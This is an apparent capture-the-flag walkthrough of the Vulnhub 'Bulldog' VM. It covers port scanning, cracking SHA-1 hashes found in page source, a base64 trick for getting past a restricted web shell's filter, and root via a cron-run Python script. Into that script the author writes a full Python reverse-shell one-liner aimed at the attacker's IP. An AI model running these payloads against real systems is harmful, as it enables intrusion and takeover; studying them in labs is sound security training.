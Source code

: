 <b>VM name:</b> 
Bulldog

<b>Objective:</b>
Get root!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogIP.png">

After loading this VM up in VirtualBox, it gives us the box's IP, so no real need to do an arp-scan to find out our target address.
So, first things first, let's run an Nmap scan to see what ports and services are available!
(*Please note that I worked on this VM and write-up from two different locations, so the DHCP IP address will appear different in certain screenshots. There are also times I switch back and forth between my Kali box and my Ubuntu box)

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_nmapscan.png">

It seems they are running SSH on port 23 (it's not running as telnet), and there is some web activity on 80 and 8080. Exploring the web stuff first, I confirmed that both 80 and 8080 are just mirrors of each other and couldn't find any differences. We are first greeted with this landing page. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldoglanding.png">

The initial page doesn't offer much other than info that they've been breached. The source code didn't have anything interesting either--nor did the link to the Notice page. So, perhaps something is hiding on this domain somewhere. First thing I looked at: robots.txt. But it was a troll.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_robots.png">

Time to load up Sparta and see if it can detect anything interesting to explore.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_spartaresults.png">

Hmm, this looks good. A dev page! 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_dev.png">

Nice, a system overhaul to make it more secure. But is it really? There's a bunch of info on employees here which could be useful. Clicking on the web-shell, it seems we need authentication to proceed. What to do, what to do...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshell.png">

Let's check the source code for the /dev page. Sure enough we find something interesting!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_devhashes.png">

Those are SHA-1 hashes, so let's run em in a decoder to see if we can get any plaintext passwords. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_sha1decrypt.png">

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcreds.png">

Nice! We have two results, which gives us a pair of credentials for something. But for what? I immediately tried the credentials on the SSH port, but no luck there, so there must be something else. Is there an admin page hiding? Yep!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogadmin.png">

Logging in with Nick's credentials, we can then access the web-shell as we are authenticated.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_django_nicklogin.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshellloggedin.png">

Neat. As the text on the /dev page mentioned, this is a shell interface, but it looks like we are limited only to a couple of commands. Semi-colon doesn't work to escape, and we get a message busting us! However, there are more ways than just that to escape. Can we trick it by passing all of our commands through base64? Let's test it with the following:

echo 'whoami'|base64|base64 -d|sh

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/echotest.png">

Sweet, it works. Now we can fully interact with the shell and pass whatever commands we like. While we don't need to pass it through base64, let's see if there is anything interesting in the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_etcpasswd.png">

Not too much here, but let's explore some other directories and files that you can usually bet on having something good. Next stop is /etc/cron.d!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcron.png">

Running cat on each of these files, runAV contained something suspicious and worth checking out--a hidden directory with an application.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenscript.png">

Awesome--so this means that this application is run AS ROOT every minute. Let's cat the contents.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenPYTHON.png">

You dun messed up Alan! Now we have a vector for getting a reverse shell and potentially even more (priviledge escalation!). Since this is already set as a python script, we can echo in python code to this file to get a reverse shell up.
Pentest Monkey's Reverse Shell Cheatsheet is a good resource for reverse shell information, and we can utilize the following Python reverse shell code:

'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR IP ADDRESS",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Let's setup a listening port with netcat on our machine, and then add the code to the application using our web-shell.
Remember, however, we can't use any semi-colons since they will be detected, so instead, we need to split this up line by line. A little tedious, but it will be worth it if it works.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/listening.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/pythoncode.png">

Now we just wait a minute annnnnnnnnd...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/congrats.png">

Amazing! We are in AND we are also root since it executed under root! 

Now, I know that we are alread root and our primary objective is done... but the box is challenging us with another way to get root, and I'm not one to turn down a challenge! Time to explore all the files and see if there is anything in here that is interesting.

First, let's change our shell interface by spawning a bash shell. Checking out the home folder we find the Bulldogadmin user we knew existed from the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddendirectory.png">

Seriously, what is with this company and hidden directories and prefacing them as 'hidden'--kind of a dead giveaway, no? 
At least name it 'garbage'! :P

In the hidden directory we find an app (customPermissionApp) and a note...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddennote.png">

Thanks Ashley! But unfortunately we can't run it. Perhaps, however, there is something useful we can find by running strings on the executable?

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/permissiondenied_strings.png">

Winner, winner, chicken dinner! That looks like it could definitely be a password when put together (and it says it's a password!), unless we are getting super trolled. 

'SUPERultimatePASSWORDyouCANTget'

While I did not attempt to gain access through different means, I am certain that if the box can be accessed with a different user, we can use this password to gain root priviledges via 'sudo su'.

Seems like Bulldog Industries still has a ways to go before they are safe from breaches!
